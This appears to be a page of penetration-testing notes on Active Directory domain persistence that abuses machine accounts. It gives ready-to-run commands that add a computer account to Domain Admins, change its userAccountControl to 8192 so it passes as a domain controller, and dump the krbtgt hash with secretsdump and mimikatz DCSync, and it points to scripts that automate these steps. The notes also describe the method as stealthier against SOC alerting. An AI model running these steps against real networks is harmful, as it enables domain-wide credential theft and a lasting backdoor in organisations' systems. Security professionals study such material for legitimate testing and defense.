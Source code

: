 ####  Persistence in AD environment
- https://padlet.com/sylvaincortes/5ih32mx9f637sk1a

#### Machine/Computer accounts
- https://adsecurity.org/?p=2753

Machine accounts could be used as a backdoor for domain persistence by adding them to high privilege groups.

```
net group "Domain Admins" newMachine01$ /add /domain
python3 secretsdump.py company.local/newMachine01\$:Password123@10.0.0.1 -just-dc-user krbtgt
```

#### Machine/Computer accounts 2
- https://stealthbits.com/blog/server-untrust-account/
- https://github.com/STEALTHbits/ServerUntrustAccount
- https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/

> Even though that dumping passwords hashes via the DCSync technique is not new and SOC teams might have proper alerting in place, using a computer account to perform the same technique might be a more stealthier approach.

- https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties

Modification of the “userAccountControl” attribute can transform a computer account to a domain controller.

Computer account to appear as a domain controller:
- **userAccountControl** attribute needs to have the value of 0x2000 = ( SERVER_TRUST_ACCOUNT ) decimal : 8192
--> Modification of this attribute requires domain administrator level privileges

```
Import-Module .\Powermad.psm1
New-MachineAccount -MachineAccount newMachine01 -Domain company.local -DomainController dc01.company.local
```
By default new computer will have primary group ID 515 (RID for domain groups and represents that this is a domain computer)

If you can modify the **userAccountControl** an therefore change the primary group ID. This attribute would be modified to have a value of **8192** the primary group id will change to **516** which belongs to domain controllers.

```
Set-ADComputer newMachine01 -replace @{ "userAccountcontrol" = 8192 }
```

Most important bit of having a computer account to act as a domain controller is that the DCSync can be used on that arbitrary account instead of the legitimate domain controller.

**Steps:**
1. Creation a machine account
2. Modifying **userAccountControl** to 8192
3. Computer account is known its NTLM hash could be used to pass the hash (create new cmd.exe, mimikatz...)
4. Command prompt will open under the context of the machine account --> DCSync KRBTG or whole identities
```
lsadump::dcsync /domain:purple.lab /user:krbtgt
```
**Automate technique 1:**
- https://github.com/STEALTHbits/ServerUntrustAccount
```
Add-ServerUntrustAccount -ComputerName "newMachine01" -Password "Password123" -Verbose
Invoke-ServerUntrustAccount -ComputerName "newMachine01" -Password "Password123" -MimikatzPath ".\mimikatz.exe"
```
